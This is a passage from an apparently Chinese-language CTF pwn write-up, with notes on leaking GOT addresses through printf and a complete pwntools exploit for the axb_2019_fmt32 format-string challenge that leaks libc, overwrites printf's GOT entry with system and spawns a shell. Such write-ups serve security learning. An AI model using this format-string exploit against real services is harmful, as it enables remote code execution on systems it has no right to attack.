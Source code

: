 ```python
    sh.interactive()

forc()
```

收获：

- 想要用`printf`打印地址不能直接进行`printf([addr of something])`，这样会直接就打印出got表的地址而不是got表指向的地址，要这样的话必须要用`printf(p32(puts_got)+b"%6$s")`这样的形式，这样可以打印出got表指向的真实地址
- 用 `u32(sh.recvuntil('\xf7')[-4:])`可以比较准确的写出相关的地址信息，这个`\xf7`就是用`gdb`的`vmmap`指令查询了关于`libc`的地址范围，一般的开头地址都是以`7f`开头的，是很大的地址范围。
- `recvuntil` 函数用法

```python
t.recv_raw = lambda n: b"Hello World!"
t.recvuntil(b' Wor', drop=True)     //b'Hello'
```

## 不栈对齐的格式化漏洞

```python
from pwn import *
import warnings
from LibcSearcher import *
import re

warnings.filterwarnings("ignore")
# 修改context上下文
elf = ELF("./axb_2019_fmt32")

printf_got = elf.got['printf']
printf_plt = elf.plt['printf']
main_addr = elf.symbols['main']

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']

def forc():
	# sh = process('./pwn')
	sh =  remote('node4.buuoj.cn',25260)
	payload =b'a'+ p32(puts_got)+b"%8$s"
	sh.recvuntil('me:')
	sh.sendline(payload)

	puts_addr = u32(sh.recvuntil('\xf7')[-4:])
	print(hex(puts_addr))
	libc = LibcSearcher("puts",puts_addr)
	libc_base = puts_addr - libc.dump("puts")   
	system_addr = libc_base + libc.dump("system")
	#binsh = libc_base + libc.dump("str_bin_sh")
	
	payload2 =b'a'+fmtstr_payload(8,{printf_got:system_addr},numbwritten=0xa)
	sh.recvuntil('me:')
	sh.sendline(payload2)
	
	#sh.recvuntil('me:')
	sh.sendline(";/bin/sh\x00")
	sh.interactive()

forc()
```
